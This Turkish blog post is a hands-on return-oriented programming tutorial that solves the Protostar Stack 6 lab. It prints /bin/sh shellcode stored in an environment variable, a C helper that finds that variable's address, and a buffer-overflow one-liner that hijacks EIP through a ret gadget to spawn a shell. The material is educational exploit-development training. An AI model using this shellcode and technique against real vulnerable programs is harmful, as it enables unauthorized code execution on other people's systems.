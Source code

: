 ```yaml
---
layout: post
title:  "Return Oriented Programming (ROP) - 2"
author: "Alp Eren Işık"
date:   2020-02-20
categories: [exploit-development, binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `ROP Part 2`

Tekrardan merhaba. Yaklaşık 1 aydır birşeyler yazmıyordum ve liste birazcık kabarmaya başladı o yüzden tekrar bir `ROP` ile giriş yapayım istedim. Eğer önceki yazımı okuduysanız çok fazla teknik detaylara girmeden ve uygulama yapmadan kısaca konuyu özetlemeye çalışmıştım. Açıkcası bi uygulama yapmadığım için pek anlaşıldığını düşünmediğimden bir de uygulamalı `ROP` yazmaya karar verdim. Lafı çok uzattım sanırım hadi başlayalım.

# `Ön Hazırlık`

 `Protostar Stack 6` sorusu üzerinden gideceğim. Bende daha önceden yüklü olduğu için direk makine üzerinden çözümünü göstereceğim ancak siz isterseniz kodlarını alıp derleyip kendi cihazınız (tercihen linux) üzerinde de çalışabilirsiniz. 
 
 `NOT - 1 :` Hangi korumaların açık/kapalı olduğuna dikkat edin. `NX` koruması dışında diğer korumaların açık olmasına gerek yok. Eğer açık olursa exploiti diğer korumaları da atlatacak şekilde geliştirmeniz gerekecek.

 `NOT - 2 :` İlerleyen zamanlarda konular oturdukça tüm korumalar aktifken neler yapabiliriz üzerine de birşeyler düşünüyorum ama şimdilik teker teker gitmekte fayda var. 

 # `GO RUN`

Senaryo şu şekilde. Elimizde bir `ELF` dosya var ve bu programda `NX` koruması aktif. Yani stack içerisine shellcode yükleyemeyeceğiz. Hemen `system` komutu çalıştırabilir miyiz diye bakıyoruz ancak yazılımcının daha önce dili yanmış olacak ki bu komutun kullanılmasını kısıtlamış. Yani `ret2libc` denememiz büyük ihtimalle başarısız olacak. Hızlıca bi araştırma yapıyoruz ve imdadımıza `ROP` yani `Return Oriented Programming` saldırısının yetiştiğini görüyoruz. (Bunun ne olduğunu bilmeyen varsa hızlıca [şuraya](https://alp.run/2020/02/20/ROP_nedir.html) bi göz atsın derim.)

İlk önce sevgili `objdump` ile programımız içerisinde herhangi bir `ret` yani return işlemi yapan bir adres var mı buna bakıyoruz.


![objdump](/static/img/posts/ROP-2/0.PNG)


Gördüğünüz gibi karşımıza birkaç seçenek geldi. Bunları kenara not edip devam edelim. İlerde işimize yarayacaklar.


Şimdi sırada shellcode'umuzu hazırlamaya geldi. Stack içerisinde çalıştıramıyacaksak nerde çalıştırcaz biz bu arkadaşı ? sorusundan bizi kurtaracak olan tabi ki ortam değişkenleri yani `environment variables` olacak. 


Aşağıdaki şekilde shellimizi ortam değişkeni olarak tanımlıyoruz.


        export SHELL=$(python -c "print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')


![ortam-degiskeni](/static/img/posts/ROP-2/1.PNG)


Tanımladıktan sonra bunun adresini öğrenmemiz lazım ki kullanalım.

        #include <stdio.h>
        #include <stdlib.h>

        int main(int argc, char *argv[]) {
            char* ptr = getenv("SHELL");
            printf("%p\n", ptr);
        }


![shellcode-adres](/static/img/posts/ROP-2/2.PNG)


Evet sanırım gerekli hazırlıkları yaptık. Bundan sonra yapacağımız şey programın kaç karakterden sonra `eip` registerı üzerine yazdığını bulmak olacak. Bu kısımları çokça anlattığım için tekrar anlatmayacağım. Ben `80` olarak buldum.


Artık yapbozun parçalarını bir araya getirebiliriz. Yapacağımız şey aslında çokda yabancı olmadığımız birşey. `EIP` registerının üzerine programın içerisinde `ret` komutunu çalıştıran bir adresi verip daha sonra da bu komuta döneceği yerin bizim `SHELL` adresimiz olması gerektiğini söyleyeceğiz.


Böylelikle stack içerisine shellcode yazmadan shellcode çalıştırıp komut satırına erişim sağlayacağız.


Hadi deneyelim...


    (python -c "print 'A' * 80 + '\x5f\x83\x04\x08\xa5\xf9\xff\xbf'"; cat) | ./stack6


![shellcode-adres](/static/img/posts/ROP-2/3.PNG)


Ve bingo ! Shellimizi aldık. 